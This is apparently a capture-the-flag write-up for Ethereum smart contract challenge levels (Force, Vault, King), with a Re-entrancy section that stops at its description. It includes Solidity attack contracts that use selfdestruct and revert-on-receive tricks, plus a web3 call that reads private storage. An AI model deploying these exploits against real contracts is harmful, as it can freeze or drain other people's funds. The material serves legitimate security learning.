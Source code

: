 
## Force
The goal is to make the balance of the contract greater than zero. To do so, we will use the selfdestruct of another contract to make the balance non-zero.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract ForceAttack {

  constructor() {
  }

  function attack(address payable vulnerableContract) public payable {
    selfdestruct(vulnerableContract);
  }
}
```

## Vault
Even if a variable is private, all the datas are public in Ethereum. So we can read the private password and unlock the contract.

```
contract.unlock(await web3.eth.getStorageAt("0x816045E270e6C9539BB35118a7B37c44915aa863", 1))
```

## King
This contract does send the prize to the king of the contract. If the king is a smart contract that revert when it receives funds, the king will never change.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract KingAttack {

  constructor(address payable vulnKing) payable {
      vulnKing.call{value: 1500000000000000 wei}("");
  }

  receive() external payable {
      revert();
  }
}
```

## Re-entrancy
On this contract, the vulnerability is that the withdraw function does send the funds before getting the balance updated. Using an attacker smart contract, a re-entrancy attack is possible.

